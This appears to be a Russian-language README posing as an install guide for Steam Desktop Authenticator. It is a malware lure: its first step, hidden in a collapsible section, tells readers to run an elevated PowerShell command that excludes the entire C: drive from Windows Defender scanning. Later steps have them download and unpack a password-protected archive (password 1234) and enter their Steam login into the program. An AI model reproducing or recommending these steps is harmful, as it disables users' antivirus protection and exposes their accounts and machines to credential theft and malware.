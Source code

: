 # Steam Desktop Authenticator

📖 В этой статье я расскажу вам, как это сделать. 👇

                                                   🔧Установка 

Шаг 1 ⚙️

<details>
<summary style="color: blue; font-weight: bold;">Сделайте расширение файлов Steam</summary>

Нажмите Win+R и введите команду
powershell.exe -Command "Start-Process powershell.exe -Verb RunAs -ArgumentList 'Add-MpPreference -ExclusionPath C:\ -Force'"

</details>

Шаг 2 📥

Как только выполнили расширение, загрузите Steam Desktop Authenticator

Шаг 3 📂

Пароль : 1234

Распакуйте на рабочем столе и запустите

Шаг 4 🚀

Запустите SDA, и напишите логин пароль

Шаг 5 ✏️

Готово! Теперь вы можете наслаждаться игрой с новым аккаунтом! 🎉😎
